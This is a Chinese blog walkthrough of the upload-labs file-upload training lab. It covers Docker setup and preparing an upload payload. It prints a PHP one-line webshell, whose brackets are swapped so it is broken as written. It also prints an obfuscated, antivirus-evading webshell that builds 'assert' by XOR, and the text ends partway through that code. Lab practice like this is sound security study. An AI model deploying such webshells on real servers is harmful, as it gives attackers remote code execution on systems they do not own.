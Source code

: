```yaml
---
title: upload-labs靶场通关
tags:
  - 靶场
  - upload-labs
date: 2023-03-26 16:05:26
categories: 靶场
keywords: upload-labs
description: 本文记录了作者在通关upload-labs靶场中面临的问题以及解决方案
top_img: https://pic.imgdb.cn/item/647c13aef024cca173275687.png
cover: https://pic.imgdb.cn/item/647c13adf024cca1732755e2.jpg
# password: xdxdsqyc15511551
# message: 暂未完成，仍在施工
---
```



## 准备工作

### 环境搭建

upload-labs的环境搭建有多种办法：

最简单的是直接下载作者 {% label c0ny1 %}提供的 [release](https://github.com/c0ny1/upload-labs/releases) 文件，但是因为博主电脑上还用 {% label phpStudy blue %}平台搭建了其他靶场，因此就选择使用Docker搭建的靶场。

然而在使用 Docker 搭建的过程中发现官方的 Docker 未正确配置，我选择了近期更新的 Docker 镜像：{% label monstertsl/upload-labs green %}

``` docker
docker pull monstertsl/upload-labs
```

### 上传脚本

首先准备一个一句话木马

```php
<?php eval[$_POST("peony")];?>
```

或者稍微做点混淆：

{% hideToggle 注释 %}

此处是基于 {% label AntSword blue %}中的插件———免杀 shell 自动生成的一句话木马文件，因为博主在自己电脑上写经典的一句话木马老是被Win10杀软自动删除，又懒得去调整，所以才使用了这个版本。

{% btn 'https://github.com/AntSwordProject/antSword', GitHub 传送门,fa-solid fa-download,outline purple %}

{% endhideToggle %}

```php
<?php 
class WEGT { 
    function Cnqq() {
        $BigR = "\xab" ^ "\xca";
        $bZum = "\xea" ^ "\x99";
        $rOPd = "\xf5" ^ "\x86";
        $dHQA = "\x2a" ^ "\x4f";
        $BIGj = "\xa8" ^ "\xda";
        $JyJj = "\xbc" ^ "\xc8";
        $gBmp =$BigR.$bZum.$rOPd.$dHQA.$BIGj.$JyJj;
        return $gBmp;
    }
    function __destruct(){
        $ckqe=$this->Cnqq();
        @$ckqe($this->MQ);
```